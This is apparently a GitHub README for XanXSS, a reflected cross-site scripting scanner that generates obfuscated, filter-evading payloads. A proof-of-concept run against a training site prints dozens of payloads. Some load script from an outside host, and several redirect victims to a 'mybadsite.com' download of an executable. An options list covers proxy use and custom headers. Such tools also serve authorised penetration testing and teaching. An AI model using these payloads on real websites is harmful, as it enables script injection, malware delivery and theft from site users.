 # XanXSS

XanXSS is a reflected XSS searching tool (DOM coming soon) that creates payloads based from templates. Unlike other XSS scanners that just run through a list of payloads. XanXSS tries to make the payload unidentifiable, for example: 

```bash
<xAnXSS</TitLE></STYLE><SVG/ONload='alERt(1);'/></XaNxSs</titLe></StYlE><SvG/ONlOAD='alerT(1);'/>
<ifrAmE&#13;Src=&#160;[2].Find(CoNfirm);=&#160;"JAVaScRIpT:proMpT(1))"javAscrIpt:/*--></scRIPt>
/>cLIcK&#13;Me!</b</TextaRea></TiTLE><BUTtON ONcLIck='aleRT(1);'/>XaNxss</TEXTaRea>
<iMG&#13;sRc=%0acONfIRM();=+'jAVASCRiPT:alerT("XSS");'</STYlE><Svg/onLoad='alErT((1));'/>
```

With XanXSS every payload is different. XanXSS works by running through the payloads until a specified number is found or a timer hits the max time, this prevents it from looping for to long. Some of the features included in XanXSS:

 - Ability to pass your own headers using `-H`
 - Ability to generate a polyglot script using `-P`
 - Ability to run behind a proxy using `--proxy`
 - And many more

# Proof of Concept

For this proof of concept we will use https://xss-game.appspot.com/level1/frame

```bash
admin@TBG-a0216:~/bin/python/xanxss$ python xanxss.py -u "http://xss-game.appspot.com/level1/frame?query=" -a 12 -t 12 -f 25 -v 

    ____  ___             ____  ___  _________ _________
    \   \/  /____    ____ \   \/  / /   _____//   _____/
     \     /\__  \  /    \ \     /  \_____  \ \_____  \ 
     /     \ / __ \|   |  \/     \  /        \/        \
    /___/\  (____  /___|  /___/\  \/_______  /_______  /
          \_/    \/     \/      \_/        \/        \/ 
Twitter->   @stay__salty
Github -->  ekultek         
Version---> v(0.1)


[info][16:37:34] using default payloads
[info][16:37:34] generating payloads
[info][16:37:34] running payloads through tampering procedures
[info][16:37:34] payloads tampered successfully
[info][16:37:34] running payloads
[debug][16:37:34] running payload '<xanxsSjAvasCRipT:/*--></SCripT></xanXsS</Style><svG/Onload='ALERt((1);'/>'
[debug][16:37:34] running payload '<SCRipt&#13;Src=+(pRomPt))``;=%09'HtTP://xsS.ROCKs/xss.jS'jaVAsCRIpt:/*--></ScrIPt></Script</tiTLe></stYLe><Svg/OnLOaD='aLeRT(1);'/>'
[debug][16:37:34] running payload '<xanxssjAvASCRIpT:/*--></ScRiPt></XANxsS</tiTle></STyle><SvG/OnLOAD\u006c='aLErt(1);'/>'
[debug][16:37:34] running payload '<iMG/+/sRc=%0dA=%0DPrOMpt,a(();=%0a'JaVaSCripT:aLeRt("XSS"));'javasCRiPT:/*--></sCRipt>'
[debug][16:37:34] running payload '<SCRIPT/*/srC=&#34;&#62;A=%0aprompT,A(();=%09'htTp://xSs.rockS/XSs.Js'</TeXTARea></TiTLE><buTTOn oncLiCK='ALeRT(1);'/>XAnXsS</tEXTARea></scrIPTjaVaSCRipT:/*--></sCRIPt>'
[debug][16:37:35] running payload '<IMg&#160;SRC=%09CONFIRM(());=%0a'JavAscrIpt:aLERt("XSS");'JavasCrIpT:/*--></SCripT>'
[debug][16:37:35] running payload '<XAnXSS</STYlE><SVg/OnLOAd='aLeRT(1));'/></xAnXsSjaVasCRIpt:/*--></scrIpt>'
[debug][16:37:35] running payload '<sCRIPt`Src=+cOnFiRm());=+'htTP://xSs.rOCKs/xsS.js'</TextaREA></tiTle><ButTon ONCliCK='AlErt(1);'/>xanxSS</TeXTarEa></SCriPtJAvaScrIPt:/*--></SCrIpt>'
[debug][16:37:35] running payload '<scRIpT</title></stYle><sVG/onlOAD='AlERT(1));'/>aLert((1));</scRipT</titLE></STyLe><sVG/oNlOad='aLeRt((1));'/>'
[debug][16:37:35] running payload '<SC\u009lripT/*/SrC=%0aConFirm();=&#160;'hTTP://xsS.ROcks/xSs.js'</TITle></StYlE><svg/ONLOad='ALerT(1);'/></ScriPT</StyLe><svG/OnLOAd='ALert((1);'/>'
[debug][16:37:35] running payload '<B//ONMOuSEOver=&#34;&#62;ConFIrm(();=&#160;wIndow.LoCATIoN=&#160\u005g;(pRoMPT))``;=%0A'htTpS://MyBaDSitE.cOM/dOwnLoAd.phP?iTem=+(pRomPt)``;=%0apuMPEDuPkICKs.exE'jaVAScrIpt:/*--></sCrIPt>ClIcK/*/mE!</b</tiTLe></sTyLE><sVG/OnLoAd='aLert(1));'/>'
[debug][16:37:35] running payload '<IfRA\u007pme%00SrC=%0AcOnFIRm(());=%0a"jaVAScriPT:pRoMPT(1)"jAVaScRIpt:/*--></SCriPt>'
[debug][16:37:36] running payload '<IframE//SrC=&#34;&#62;CONfIRM());=%0d"jAvAscriPT:pROMpT(1)"</TeXtarEa></TiTLe><BUttoN oNcliCK='aLERt((1));'/>XanXss</texTAReA>'
[debug][16:37:36] running payload '<iMG/+/SRc=%09[3].FInd(COnFIRm));=&#34;&#62;'javAscriPt:A\u004pLerT("XSS");'JavaSCriPt:/*--></sCripT>'
[debug][16:37:36] running payload '<imG&#160;SRc=%0d[2].FinD(cOnFiRm));=&#160;'JaVaScRipt:ALERt("XSS"));'</styLe><SVg/oNLoad='ALErT(1));'/>'
[debug][16:37:36] running payload '<script</tITLE></style><SVG/onLOAD='alerT(1);'/>AleRt(1);</ScRIpTjAvASCrIPT:/*--></scRIPt>'
[debug][16:37:36] running payload '<XaNxSs</tITle></sTYlE><SVg/ONload='aLERT((1);'/></xANxsS</stYLE><Svg/OnlOAD='AleRt(1);'/>'
[debug][16:37:36] running payload '<b//ONmOUSEoVEr=%0D[8].fInd(coNfIrM);=%09WinDoW.location=%0A(COnfiRm)(();=&#160;'htTPS://MYBadsite.cOM/DoWNlOaD.php?ITEm=+COnFIrM();=+puMPEDupKickS.ExE'</styLe><sVG/OnLOAd='alERt((1);'/>CLick%00Me!</b</sTYlE><SVG/onloAD='AlERt(1);'/>'
[debug][16:37:37] running payload '<scriPT</styLE><SvG/ONloaD='aLERT(1);'/>ALeRt(1);</SCrIPt</tiTLe></STYlE><sVG/OnloAd='aLeRT(1\u009x);'/>'
[debug][16:37:37] running payload '<iFRamE%00srC=&#34;&#62;[7].FInD(cOnFiRm);=%0A"javAsCRipT:prompt(1))"</tITlE\u009e></sTyle><svg/oNLOad='alert((1);'/>'
[debug][16:37:37] running payload '<b/*/OnmOusEOver=&#160;A=%0apROMpt,A();=+wINdOW.LOCAtIon=&#34;&#62;co\U006EfiR\u006\u003id();=%09'HTtPS://MYBAdsiTE.com/doWNload.php?itEm=+((CoNfIrm)();=&#34;&#62;puMpedUPKickS.eXe'</teXtaREa></tiTLe><BUTTON oNclIck='aLeRT((1);'/>XanXsS</texTAREA>cLICk/*/Me!</B</StylE><SVG/ONloAd='aLERt((1));'/>'
[debug][16:37:37] running payload '<XANxSSJaVaScRIpt:/*--></SCripT></XAnXSs</TExtAREa></tITle\u008w><b\u009fuTTON oNclIck='Ale\u003rRT((1);'/>xANXss</TEXTArEA>'
[debug][16:37:37] running payload '<SCript/*/sRC=+A=&#160;prOmpt,A();=&#160;'HtTp://XsS.rocKS/xsS.JS'</stylE><sVG/onLoad='AlErT((1);'/></SCriptjAvaScriPt:/*--></ScrIpt>'
[debug][16:37:37] running payload '<ImG&#13;SRc=&#34;&#62;Co\U006efIr\u006D();=%0a\u007u'javAsCript:AlerT(("XSS");'</titlE></StYLe><svg/onloAD='alERt(1);'/>'
[debug][16:37:38] running payload '<B/*/ONmouSeOvEr=%0Aa=&#160;prOmpT,A();=%09WIndOw.LOCAtION=%0Aa=%09prompt,a();=%0A'hTTps://MYBadsITe.COM/DOWNLOAD.PHp?ITeM=&#160;cO\u006Efir\u006D());=%0dPumPeduPkicks.EXE'</tITlE></StyLE><svg/OnlOAD='aLerT((1));'/>clIcK&#13;mE!</bJavASCript:/*--></sCrIPT>'
[warning][16:37:48] times up dumping found
[info][16:37:48] working payloads:
--------------------------------------------------
  ~~> <xanxssjAvASCRIpT:/*--></ScRiPt></XANxsS</tiTle></STyle><SvG/OnLOAD\u006c='aLErt(1);'/>
  ~~> <SCRipt&#13;Src=+(pRomPt))``;=%09'HtTP://xsS.ROCKs/xss.jS'jaVAsCRIpt:/*--></ScrIPt></Script</tiTLe></stYLe><Svg/OnLOaD='aLeRT(1);'/>
  ~~> <xanxsSjAvasCRipT:/*--></SCripT></xanXsS</Style><svG/Onload='ALERt((1);'/>
--------------------------------------------------
[info][16:37:48] found a total of 3 working payloads
admin@TBG-a0216:~/bin/python/xanxss$ 
```

Now lets check those scripts in the HTML of the website:

Payload:```<xanxssjAvASCRIpT:/*--></ScRiPt></XANxsS</tiTle></STyle><SvG/OnLOAD\u006c='aLErt(1);'/>```
![xanxsspoc1](https://user-images.githubusercontent.com/14183473/48165682-f1dede00-e2ab-11e8-8c33-4cd8d909b760.png)

Payload: ```<SCRipt&#13;Src=+(pRomPt))``;=%09'HtTP://xsS.ROCKs/xss.jS'jaVAsCRIpt:/*--></ScrIPt></Script</tiTLe></stYLe><Svg/OnLOaD='aLeRT(1);'/>```
![xanxsspoc2](https://user-images.githubusercontent.com/14183473/48165747-25216d00-e2ac-11e8-8d2f-8f6eed88f7b8.png)

Payload: ```<xanxsSjAvasCRipT:/*--></SCripT></xanXsS</Style><svG/Onload='ALERt((1);'/>```
![xanxsspoc3](https://user-images.githubusercontent.com/14183473/48165767-38343d00-e2ac-11e8-8785-aa736183ab9d.png)


# Options

XanXSS comes complete with the ability to use a proxy, is compatible with proxychains, and allows you to add custom headers. I have provided a full list of options for your convience:

```bash
usage: xanxss.py [-h] [-u http://test.com/test.php?id=] [-a VERIFY]
                 [-f AMOUNT] [-t TIME] [-p SCRIPT, [SCRIPT, ...]]
                 [-F FILE-PATH] [-v] [--proxy TYPE://IP:PORT]
                 [-H HEADER=VALUE,HEADER:VALUE] [--throttle TIME secs] [-P]

optional arguments:
  -h, --help            show this help message and exit
  -u http://test.com/test.php?id=, --url http://test.com/test.php?id=
                        pass a URL to test for XSS vulnerabilities. it is
                        recommended that you use a URL with a query parameter
  -a VERIFY, --amount VERIFY
                        how many verifications steps to be taken, this will
                        determine how reliable the payload is. the more
                        verification steps the more reliable the payload will
                        be (*default=5)
  -f AMOUNT, --find AMOUNT
                        attempt to find this amount of working payloads,
                        specifying this does not guarantee you will find this
                        amount of working payloads (*default=25)
  -t TIME, --time TIME  amount of time in seconds to spend on testing, this
                        will be used as a timer for the verification
                        (*default=35s)
  -p SCRIPT, [SCRIPT, ...], --payloads SCRIPT, [SCRIPT, ...]
                        pass a comma separated list of your own payloads, must
                        contain at least 5 payloads
  -F FILE-PATH, --file FILE-PATH
                        pass a textual file containing payloads one per line,
                        must contain at least 5 payloads
  -v, --verbose         run in verbose mode and display more output
                        (*default=False)
  --proxy TYPE://IP:PORT
                        pass a proxy in the format type://ip:port
  -H HEADER=VALUE,HEADER:VALUE, --headers HEADER=VALUE,HEADER:VALUE
                        add your own custom headers to the request
                        (*default=connection,user-agent)
  --throttle TIME (secs)
                        throttle each request with a sleep time (*default=0)
  -P, --polyglot        generate a polyglot script to append to the end of the
                        running scripts, if there is XSS this should find it
                        (*default=False)
```

# Bugs

If you happen to find a bug or an issue please [create an issue](https://github.com/Ekultek/XanXSS/issues/new)